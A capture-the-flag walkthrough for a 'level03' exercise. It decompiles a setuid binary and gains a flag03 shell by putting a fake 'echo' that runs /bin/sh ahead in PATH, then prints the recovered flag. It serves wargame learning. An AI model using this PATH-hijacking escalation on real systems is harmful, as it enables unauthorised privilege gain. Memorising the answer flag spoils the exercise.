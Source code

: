 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali:

```shell
/opt/retdec/bin/retdec-decompiler.py level03
```

OPTION 1:

 ```shell
 PATH=/tmp:$PATH
 ```

 ```shell
 echo /bin/sh > /tmp/echo
 ```

 ```shell
 chmod +x /tmp/echo
 ```

 ```shell
 ./level03
 ```

 Optional (proof that we operate as flag03):

 ```shell
 whoami
 ```

 ```shell
 getflag
 ```

 gives flag:

 ```shell
 qi0maab88jeaj46qoumi7maus
 ```

OPTION 2:

 ```shell
 cd /tmp
 ```

 ```shell
 vim main.c
 ```

 Copy-Paste exploit.c

 ```shell
 gcc main.c -o echo
 ```

 ```shell
 ~/level03
 ```

 Optional (proof that we operate as flag03):

 ```shell
 whoami
 ```

 ```shell
 getflag
 ```

 gives flag:

 ```shell
 qi0maab88jeaj46qoumi7maus
 ```
